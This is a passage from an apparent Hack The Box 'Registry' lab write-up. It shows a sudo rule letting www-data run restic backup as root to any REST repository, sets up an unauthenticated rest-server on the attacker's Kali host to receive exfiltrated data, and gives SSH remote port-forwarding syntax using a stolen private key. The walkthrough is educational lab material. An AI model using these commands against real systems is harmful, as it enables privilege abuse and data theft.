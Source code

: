 sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
www-data@bolt:~/html/bolt/theme$ 
```


## Data Exfiltration

Something else we need to look at, restic for backups. From the sudo permissions *www-data* user has, we see we can run anything through restic to ANY rest repository (a remote restic backup server):

Command available as sudo:

```/usr/bin/restic backup -r rest*```

While looking into this, we found out we must set a restic server locally in Kali and initialize the repository (see the resources section).

This whole process tells me one way we can approach this is by "exfiltrating data" from registry.htb. We can't do anything else here other than running the restic backup command on anything, as explained above.

Let's setup the restic server (*rest-server*) in a separate terminal window, locally:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ rest-server --listen 0.0.0.0:8000 --path /home/kali/Documents/HTB-Labs/Registry --no-auth
Data directory: /home/kali/Documents/HTB-Labs/Registry
Authentication disabled
Private repositories disabled
Starting server on 0.0.0.0:8000

kali@back0ff:~/Documents/HTB-Labs/Registry$ restic init -r rest:http://0.0.0.0:8000/
enter password for new repository: 
enter password again: 
created restic repository afc16c9776 at rest:http://0.0.0.0:8000/

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
```

Having done this, if we try to run the backup command, we cannot connect to the rest-server on TCP 8000. Remember we can't connect outbound from registry.htb to almost anything

At this point, we could also attempt to do SSH Remote Port Forwarding to bind a new service to registry.htb from a **NEW** terminal window:

**SYNTAX:**

```ssh -R <RemotePort>:localhost:<LocalPort> -i <Private_Key> <username>@<remoteHost>

Where:
RemotePort: is the new port you have Registry listen to which will forward data to the localhost:LocalPort.
LocalPort: is the local service (Restic Server) in your host you want SSH on the remote host to forward traffic to.
Private_Key: is the id_rsa file we found from the Docker Blobs.
username: is the bolt user from registry.htb.
remoteHost: is registry.htb.
```
